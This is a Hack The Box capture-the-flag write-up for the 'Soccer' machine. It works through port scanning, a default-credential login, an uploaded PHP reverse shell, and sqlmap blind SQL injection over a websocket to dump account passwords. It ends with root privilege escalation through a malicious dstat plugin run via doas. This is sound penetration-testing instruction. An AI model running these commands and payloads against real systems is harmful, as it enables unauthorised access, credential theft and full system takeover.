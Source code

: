 # HTB - Soccer

#### Ip: 10.10.11.194
#### Name: Soccer
#### Rating: Easy

----------------------------------------------------------------------

![Soccer.png](../assets/soccer_assets/Soccer.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.194 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-03 08:22 CST
Nmap scan report for 10.10.11.194
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Using Feroxbuster we can do directory scanning and find a `/tiny` directory leading us to a Tiny File Manager service.

![soccer_ferox.png](../assets/soccer_assets/soccer_ferox.png)

Looking for default credentials we see that admin:admin@123 are default administrator credentials and we can use them to login to the site as admin:

![soccer_logged_in.png](../assets/soccer_assets/soccer_logged_in.png)

Looking around the target I find an upload feature, but am unable to write to the web root which is owned by root. I found I can create a new folder called test via the "New Item" feature, and in that folder I have write access permission to load  php-reverse-shell.php code. 

![soccer_dirs.png](../assets/soccer_assets/soccer_dirs.png)

After confirming the php shell is loaded:

![soccer_php.png](../assets/soccer_assets/soccer_php.png)

I can set up a netcat listener and click "Open" to trigger my reverse shell to catch a shell back as user www-data:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.194] 41702
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:56 up 5 min,  0 users,  load average: 0.16, 0.40, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ hostname
soccer
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```

I find trying to access the user.txt flag in user player's home directory I don't have permissions and will need to escalate privileges:

```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

Loading LinPEAS to the target we see there is a vhost that wasn't found during enumeration:

![soccer_vhost.png](../assets/soccer_assets/soccer_vhost.png)

Adding this to out /etc/hosts file, we can create an account and login.

![soccer_tix.png](../assets/soccer_assets/soccer_tix.png)

We can see in the page source here some JS code that is reaching out to a websocket on port 9091:

![soccer_js.png](../assets/soccer_assets/soccer_js.png)

Full transparency: I got stuck here for HOURS, and the following SQLMap commands were shamelessly lifted from 0xdf's writeup of the box found at: https://0xdf.gitlab.io/2023/06/10/htb-soccer.html. Thanks 0xdf!

Apparently this is vulnerable to a blind SQL injection, and we can use SQLMap to interact with the web socket and extract data from the DB.

To enumerate the database We can run:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Which gives us the databases:
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Because soccer_db is the only non default DB, lets start there, by now enumerating tables:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Appears to be only one table:
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we can dump the contents of the accounts table:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Nice, SQLMap dropped user player's password for us:

![soccer_pw.png](../assets/soccer_assets/soccer_pw.png)

We can use this to SSH into the machine:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

And grab the user.txt flag:

![soccer_users.png](../assets/soccer_assets/soccer_users.png)

### Privilege Escalation

Loading LinPEAS onto the target we see that `doas` has the SUID bit set.

![soccer_doas.png](../assets/soccer_assets/soccer_doas.png)

Also of interest we find that /usr/local/share/dstat is writable:

![soccer_lin2.png](../assets/soccer_assets/soccer_lin2.png)

If we look at the doas.conf file we see we are permitted to run dstat with doas, as you would sudo.

```
player@soccer:/tmp$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Looking at GTFObins.com, we find the following explanation:
```
dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
```

Lets try it:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_plugin.py

/usr/local/bin/doas /usr/bin/dstat --plugin
```
Nice, that worked. We can now grab the root.txt flag:

![soccer_root.png](../assets/soccer_assets/soccer_root.png)

Thanks for following along!

-Ryan


